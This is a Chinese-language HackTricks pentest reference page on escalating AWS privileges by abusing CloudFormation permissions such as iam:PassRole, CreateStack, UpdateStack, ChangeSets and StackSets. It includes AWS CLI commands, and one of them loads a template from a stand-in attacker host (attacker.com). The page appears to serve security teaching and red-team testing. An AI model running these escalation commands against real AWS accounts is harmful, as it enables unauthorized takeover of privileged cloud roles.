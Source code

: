 # AWS - Cloudformation Privesc

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## cloudformation

有关 cloudformation 的更多信息，请查看：

{% content-ref url="../../aws-services/aws-cloudformation-and-codestar-enum.md" %}
[aws-cloudformation-and-codestar-enum.md](../../aws-services/aws-cloudformation-and-codestar-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `cloudformation:CreateStack`

拥有这些权限的攻击者 **可以提升权限**，通过制作一个 **CloudFormation 堆栈**，使用托管在其服务器上的自定义模板，**以指定角色的权限执行操作：**
```bash
aws cloudformation create-stack --stack-name <stack-name> \
--template-url http://attacker.com/attackers.template \
--role-arn <arn-role>
```
在以下页面中，您有一个 **利用示例**，附加权限 **`cloudformation:DescribeStacks`**：

{% content-ref url="iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md" %}
[iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md](iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md)
{% endcontent-ref %}

**潜在影响：** 提升到指定的 cloudformation 服务角色。

### `iam:PassRole`，(`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

在这种情况下，您可以 **滥用现有的 cloudformation 堆栈** 来更新它并提升权限，如前面的场景所示：
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
`cloudformation:SetStackPolicy` 权限可以用来 **给自己 `UpdateStack` 权限** 以便对一个堆栈进行攻击。

**潜在影响：** 提升到指定的 cloudformation 服务角色。

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

如果你拥有这个权限但 **没有 `iam:PassRole`**，你仍然可以 **更新使用的堆栈** 并滥用 **它们已经附加的 IAM 角色**。查看前面的部分以获取利用示例（只需在更新中不指明任何角色）。

`cloudformation:SetStackPolicy` 权限可以用来 **给自己 `UpdateStack` 权限** 以便对一个堆栈进行攻击。

**潜在影响：** 提升到已经附加的 cloudformation 服务角色。

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

拥有 **传递角色和创建 & 执行 ChangeSet** 权限的攻击者可以 **创建/更新一个新的 cloudformation 堆栈，滥用 cloudformation 服务角色**，就像使用 CreateStack 或 UpdateStack 一样。

以下利用是 **变体**[ **CreateStack 的**](./#iam-passrole-cloudformation-createstack)，使用 **ChangeSet 权限** 来创建一个堆栈。
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
`cloudformation:SetStackPolicy` 权限可以用来 **给自己 `ChangeSet` 权限** 以便对一个堆栈执行攻击。

**潜在影响：** 提升到 cloudformation 服务角色的权限。

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

这与之前的方法类似，不需要传递 **IAM 角色**，所以你可以 **滥用已经附加的角色**，只需修改参数：
```
--change-set-type UPDATE
```
**潜在影响：** 提升到已附加的 cloudformation 服务角色。

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

攻击者可以滥用这些权限来创建/更新 StackSets，以滥用任意 cloudformation 角色。

**潜在影响：** 提升到 cloudformation 服务角色。

### `cloudformation:UpdateStackSet`

攻击者可以在没有 passRole 权限的情况下滥用此权限来更新 StackSets，以滥用附加的 cloudformation 角色。

**潜在影响：** 提升到附加的 cloudformation 角色。

## 参考

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
